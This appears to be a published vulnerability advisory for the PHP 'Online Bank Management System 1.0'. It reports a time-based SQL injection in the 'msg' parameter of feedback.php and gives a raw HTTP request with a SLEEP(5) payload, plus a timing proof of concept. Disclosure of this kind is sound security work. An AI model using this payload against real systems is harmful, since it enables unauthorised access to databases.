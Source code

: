 # Online Bank Management System - feedback.php 'msg' Unauthorized SQL inject

#### Exploit Title: Online Bank Management System - feedback.php 'msg' Unauthorized SQL inject

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: phpstudy 2018

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the "feedback.php msg" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /SourceCodesterBank/feedback.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

msg=test', (SELECT 1 FROM (SELECT(SLEEP(5)))a)) -- &send=Send
```

#### Proof of Concept

First, we use delay injection sleep(0) to see that the loading time of the page is 4 seconds.

<img width="1247" height="726" alt="image" src="https://github.com/user-attachments/assets/00a34a4a-92f9-4e00-9d9e-1662b4b1e584" />

Then we delay sleep(5) for another 5 seconds, and the page loading becomes 9 seconds, which successfully proves that sleep(5) has been executed successfully.

<img width="1241" height="722" alt="image" src="https://github.com/user-attachments/assets/cd793e5a-90d1-48c8-a9be-3adf788bcf21" />

